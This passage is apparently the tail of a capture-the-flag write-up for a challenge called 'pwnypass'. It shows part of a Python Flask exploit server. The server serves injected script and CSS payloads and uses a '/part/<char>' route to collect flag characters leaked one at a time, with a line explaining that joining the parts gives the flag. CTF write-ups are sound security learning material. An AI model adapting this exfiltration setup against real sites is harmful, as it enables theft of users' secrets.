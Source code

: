 ```python
    window.stop();
    await delay(200);
    window.location.assign("https://pwnypass.c.hc.lc/login.php");
}};
</script>
""", css_payload())

@app.route('/part/<int:char>')
def part(char):
    global flag
    flag += chr(char)
    print('\nCurrent flag:', flag)
    return ''

if __name__=="__main__":
    app.run(port=1234)

```

This payload leaks the flag part by part and joining them would get us the flag.